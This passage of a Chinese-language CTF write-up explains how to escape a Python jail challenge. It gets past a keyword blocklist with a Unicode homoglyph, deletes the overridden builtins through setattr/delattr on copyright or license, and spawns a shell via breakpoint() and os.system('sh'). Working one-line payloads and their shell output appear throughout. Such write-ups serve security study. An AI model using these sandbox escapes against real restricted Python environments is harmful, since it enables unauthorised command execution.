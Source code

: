 同时只能一行输入,不能多次输入所以之前的办法目前是行不通.不过还有以下版本可以尝试

#### 方法1 删除覆盖:

DISABLE_FUNCTIONS 注册了关于`"getattr", "eval", "exec", "breakpoint", "lambda", "help"`的None对象并且覆盖其`__builtins__`中的函数对应函数,所以只要删除掉覆盖的全局变量就行

那全局变量可以通过`globals()`,`vars()`,`locals()`等 当然也可以通过unicode的形式绕过`blocklist` 比如`gloｂals`类似的形式,这样就可以删掉`DISABLE_FUNCTIONS`里的函数然后将其调用.

例如先用`setattr`将一些没用类的`__dict__`覆盖以`globals()`,`vars()`,`locals()`然后再通过`delattr`删掉那些`DISABLE_FUNCTIONS`,再进行调用

比如以下:

vars(),locals(）都可以用

覆盖copyright 调用breakpoint函数

```
welcome!
>>> setattr(copyright,'__dict__',gloｂals()),delattr(copyright,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}

welcome!
>>> setattr(copyright,'__dict__',vars()),delattr(copyright,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}

welcome!
>>> setattr(copyright,'__dict__',locals()),delattr(copyright,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}
```

覆盖license 调用breakpoint函数

```
welcome!
>>> setattr(license,'__dict__',gloｂals()),delattr(license,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}

welcome!
>>> setattr(license,'__dict__',vars()),delattr(license,'breakpoint'),breakpoint()
--Return--
> <string>(1)<module>()->(None, None, None)
(Pdb) import os;os.system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{what_used_to_be_a_joke_has_now_turned_into_an_pyjail_escape.How_wonderful!}
```